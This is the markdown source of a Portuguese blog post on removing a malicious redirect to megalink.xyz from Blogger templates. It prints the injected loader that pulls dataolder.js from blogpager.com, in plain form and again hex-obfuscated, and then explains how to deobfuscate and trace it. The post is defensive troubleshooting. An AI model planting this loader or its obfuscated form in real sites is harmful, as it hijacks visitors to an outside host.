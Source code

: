```yaml
---
title: Blogger redirecionando para o megalink.xyz
date: 2023-07-02
author: M4rQu1Nh0S
tags: [blogger, redirecionando, sozinho, megalink.xyz, automaticamente]
subtitle: Saiba como resolver esse redirecionamento indesejado
category: [Dicas e tutoriais, Blogger]
comments: true
#cover-img: /assets/img/path.jpg
thumbnail-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
share-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
layout: post
---
```


![](https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png)<br/>
Um problema que pode acontecer ao utilizar temas não oficiais do blogger, alguns temas possuem códigos que ocasionalmente faz com que as visitas no seu blog sejam automaticamente redirecionadas para um outro site. Tal problema que comecei a ter recentemente em um template do blogger que já vinha utilizando a muito tempo atrás.

Enfim, indo direto ao ponto, no meu caso o problema foi causado por 2 scripts que estavam no html do blog

	//commentid.com/dataolder.js

e

	//blogpager.com/dataolder.js

Na grande maioria das vezes, com esses dois scripts, seu blog é redirecionado para o site https:// **link.megalink.xyz**]

Portanto basta editar o código html do blogger e remover todas as linhas que contem esse **dataolder.js**

**Conteúdo**

1. [Pode acontecer desse script estar “disfarçado” no html](#pode-acontecer-desse-script-estar-disfarçado-no-html)
2. [“DesOfuscando” um código](#desofuscando-um-código)
3. [Como encontrar o script no html do blogger](#como-encontrar-o-script-no-html-do-blogger)
4. [Usando o debugger do browser para diagnóstico](#usando-o-debugger-do-browser-para-diagnóstico)
5. [Observações sobre o problema](#observações-sobre-o-problema)

## Pode acontecer desse script estar “disfarçado” no html
Existe uma espécie de codificação em linguagens de programação que “disfarçam” que podemos chamar de **ofuscador**.

O Ofuscador faz com que um código como esse:

```
<script type='text/javascript'>
_wau.push(["small", "00wy9zw057rt", "pd4"]);
(function () {
  var rahja = document.createElement("script");
  rahja.async = true;
  rahja.src = "//blogpager.com/dataolder.js";
  document.getElementsByTagName("head")[0].appendChild(rahja);
}());
</script>
```

Após ofuscado, o código fica assim:

```
<script type='text/javascript'>
var _0x603d=["\x73\x6D\x61\x6C\x6C","\x30\x30\x77\x79\x39\x7A\x77\x30\x35\x37\x72\x74","\x70\x64\x34","\x70\x75\x73\x68","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x73\x79\x6E\x63","\x73\x72\x63","\x2F\x2F\x62\x6C\x6F\x67\x70\x61\x67\x65\x72\x2E\x63\x6F\x6D\x2F\x64\x61\x74\x61\x6F\x6C\x64\x65\x72\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x68\x65\x61\x64","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65"];var _wau=_wau|| [];_wau[_0x603d[3]]([_0x603d[0],_0x603d[1],_0x603d[2]]);(function(){var _0xcefcx2=document[_0x603d[5]](_0x603d[4]);_0xcefcx2[_0x603d[6]]= true;_0xcefcx2[_0x603d[7]]= _0x603d[8];document[_0x603d[11]](_0x603d[10])[0][_0x603d[9]](_0xcefcx2)})()
</script>
```

Uma vez que o código esteja ofuscado, você não vai conseguir encontrar o script e daí não conseguirá acabar com a fonte dos redirecionamentos.

## “DesOfuscando” um código

Felizmente existem ferramentas que ajudam a desofuscar, pelo menos parcialmente, um código que está ofuscado.

Vou recomendar alguns exemplos abaixo:

-   [**https://www.seosniffer.com/javascript-deobfuscator**](https://www.seosniffer.com/javascript-deobfuscator)
-   [https://deo.sigr.io/](https://deo.sigr.io/)
-   [https://www.dcode.fr/javascript-unobfuscator](https://www.dcode.fr/javascript-unobfuscator)
-   [https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii](https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii)
    (para traduzir alguns caracteres xml para html e daí desofuscar)

## Como encontrar o script no html do blogger
Agora que já expliquei como identificar um código ofuscado e também ja falei que o script que faz os redirecionamentos (dataolder.js), basta editar o html do blogger.

Abra o painel do blogger e vá nas opções de editar o html, e então use o Ctrl + F e procure por:

	<script type='text/javascript'>

No meio dos resultados você vai encontrar alguns códigos ofuscados, basta pega-los e desofusca-los e observar se tem algo no meio desse código alguma função de redirecionamento.

Ao encontrar basta remover, mas atenção, nem todo código ofuscado vai ter um script de redirecionamento! Alguns autores ofuscam o código para proteger o seu tema de plágio e por isso alguns códigos ofuscados podem apenas conter funções especificas do tema, como animações, estilos de fontes e cores, etc.

## Usando o debugger do browser para diagnóstico.
Todo browser ou a maioria tem as ferramentas de desenvolvedor, no caso do Chrome ele aparece ao pressionar **F12**.

Dá pra usar essa ferramenta para ajudar a encontrar a fonte dos redirecionamentos que está acontecendo no seu blogger.

Basta apertar F12 e seguir os procedimentos:

- Habilitar a visualização mobile
- Na opção **Network**, marcar as opções **Preserve Log** e **Block Requests**
- Na lista **Name** vai haver várias solicitações, ao clicar em uma da lista, observe a guia **Initiator**, ela informa em qual parte do site saiu a solicitação, que no caso é de redirecionamento.

![](https://cdn-images-1.medium.com/max/800/1*vK9hdmPcOOm8Z-3bnHtzbA.png)

## Observações sobre o problema
Curiosamente esse tipo de problema acontece principalmente quando o blog é aberto por um browser mobile ou em modo mobile, em modo computador o redirecionamento não acontece todas as vezes.

Pelo visto os scripts de redirecionamento foram programas para atuarem com mais tendencia em celulares, por tanto quando for investigar as fontes do redirecionamento que está acontecendo no seu blog, experimente faze-lo com o blog aberto em modo mobile.

